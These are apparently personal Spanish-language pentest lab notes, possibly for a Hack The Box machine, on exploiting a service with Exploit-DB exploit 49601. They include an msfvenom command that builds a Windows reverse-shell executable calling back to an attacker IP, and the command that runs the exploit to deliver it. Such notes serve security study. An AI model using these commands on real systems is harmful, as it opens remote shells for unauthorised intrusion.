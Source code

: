 
## DESCRIPTION


Puede que nmap no detecte bien el servicio:

![[Pasted image 20230603195356.png]]

#### Mas información
* https://www.exploit-db.com/exploits/49601
* https://www.exploit-db.com/exploits/50972


## EXPLOITATION

**!!NOTA IMPORTANTE!!** 

Cuidado que este exploit no funcioanaba:
![[Pasted image 20230603195546.png]]

Usamos el siguiente exploit;

![[Pasted image 20230603195559.png]]

Generamos una shell con msfvenom: 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.228 LPORT=4444 -f exe -o shell2.exe   
```


Ponemos un servidor  web en ese directorio y ejecutamos el exploit:
```
python 49601.py 192.168.200.145 192.168.45.228 shell2.exe 
```


![[Pasted image 20230603195625.png]]

## MACHINES

* Hack The Box: 


